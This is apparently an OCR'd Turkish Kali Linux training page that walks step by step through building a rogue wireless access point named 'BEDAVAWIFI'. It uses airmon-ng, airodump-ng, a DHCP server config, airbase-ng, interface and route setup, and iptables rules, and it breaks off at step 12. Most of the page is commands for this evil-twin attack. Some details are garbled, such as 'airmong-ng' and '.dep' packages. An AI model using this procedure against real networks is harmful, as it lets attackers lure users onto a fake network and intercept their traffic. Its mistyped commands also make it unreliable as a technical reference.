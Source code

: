  Kablosuz ağa bağlanan yetkisiz kişiler, ortama sahte erişim noktaları ekleyebilirler ya da kendi
kablosuz ağ cihazlarını bazı işlemlerle bir erişim noktasına dönüştürebilirler. Bu kişiler kablosuz
ağın kaynaklarını ya kendileri kullanır ya da başka kişilerle paylaşır. 
 
 1. Adım: Kali Linux’a ilgili adaptör bağlantısını yaptıktan sonra iwconfig komutu ile arabirimleri
görünüz.
 
 2. Adım: Komut satırına sudo airmong-ng start wlan0 yazarak ağ arabirim kartını monitör
moda geçiriniz.
 
 3. Adım: Komut satırına sudo airodump-ng wlan0 yazarak etraftaki kablosuz erişim noktalarını
keşfediniz.
 
 4. Adım: Komut satırına sudo apt-get install dhcp3-server yazarak DHCP Server’i yükleyiniz.
 
 5. Adım: DHCP Server yüklenmediyse dosyayı internetten indirip, sudo tar -xvf isc-dhcp-server.
tar.gz yazarak yükleyiniz.
 
 6. Adım: Komut satırına dpkg -i isc.dhcp.server.dep yazarak ilgili paketleri yükleyiniz.
 
 7. Adım: Komut satırına reboot yazarak sistemi yeniden başlatınız. İlgili .dep paketini sisteminize yükledikten sonra Kali’yi yeniden başlatınız.
 
 8. Adım: IP aralığı verebilmek için DHCP servisinin conf dosyasını aşağıdaki gibi düzenleyiniz.
 
 nano /etc/dhcp3/dhcpd.conf
 
 default-lease-time 600;

 max-lease-time 7200;
 
 authoritative;
 
 subnet 10.0.0.0 netmask 255.255.255.0 {
 
 option subnet-mask 255.255.255.0;
 
 option broadcast-address 10.0.0.255;
 
 option routers 10.0.0.254;
 
 option domain-name-servers 8.8.8.8;
 
 range 10.0.0.1 10.0.0.140;
 
 }
 
 9. Adım: Komut satırına airbase-ng -e BEDAVAWIFI -c 11 -v wlan0 yazarak BEDAVAWIFI isimli
sahte kablosuz ağı oluşturunuz.
 
 10. Adım: at0 adında sanal arabirim eklemek için aşağıdaki kod satırlarını yazınız.<br>
 ifconfig at0 up<br>
 ifconfig at0 10.0.0.254 netmask 255.255.255.0<br>
 
 11. Adım: Komut satırına route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.254 yazarak sahte kablosuz ağ için router ayarlarını yapınız.
 
 12. Adım: Sahte kablosuz ağ için iptable ayarlarını aşağıdaki komut satırlarını yazarak oluşturunuz.<br>
 iptables --flush<br>
 iptables --table nat --flush<br>
 iptables --delete-chain<br>
 iptables --table nat --delete-chain<br>
 iptables -P FORWARD ACCEPT<br>
 